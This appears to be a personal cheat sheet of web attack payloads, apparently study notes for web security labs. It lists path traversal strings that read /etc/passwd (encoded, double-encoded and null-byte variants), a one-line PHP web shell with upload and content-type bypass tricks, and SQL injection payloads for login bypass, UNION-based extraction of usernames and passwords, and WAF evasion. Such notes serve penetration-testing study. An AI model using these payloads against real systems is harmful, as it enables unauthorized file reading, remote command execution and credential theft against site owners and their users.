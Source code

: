 # notes
## **PATH TRAVERSAL**
Default way:

>GET /image?filename=../../../../../../../../etc/passwd

Url-Encoded:

>%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

Way, when `../` erased:

>....//....//....//....//

When filename should start with some string 

>/var/www/images/../../../../../etc/passwd

When server URL-decode of the input before using it.
>..%252f..%252f..%252fetc/passwd

When server require ending, like `png` , use null bytes, for example
>../../../etc/passwd%00.png





## **FILE UPLOAD**
Default way:
><?php echo system($_GET['command']); ?>

Flawed file type validation:
Change content type to image/jpeg

Script execution can be disabled in a separate folder. This can be bypassed with the help of path traversal:
Instead of 
`Content-Disposition: form-data; name="avatar"; filename="exploit.php"`
  We can use
`Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
  Or obfuscated versions


## **SQL INJECTION**

Login Bypass:
`administrator'--`

Simple Data Retrieve (request `SELECT name, description FROM products WHERE category = 'Gifts'`):
`' UNION SELECT username, password FROM users--`
**Oracle add `from dual`**
#Determine number of columns:
`' ORDER BY 3--`
Second method, allow to determine type of data in column
`' UNION SELECT NULL,NULL,NULL--`/`' UNION SELECT 'a',NULL,NULL,NULL--`
#Concatenation of strings:
`' UNION SELECT username || '~' || password FROM users--`
Mysql `CONCAT('foo','bar'` or `'foo' 'bar'` note space.
#Substring:
`SUBSTRING('foobar', 4, 2)`
Oracle `SUBSTR('foobar', 4, 2)`
#Simle WAF Bypass by encoding:
`<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>`

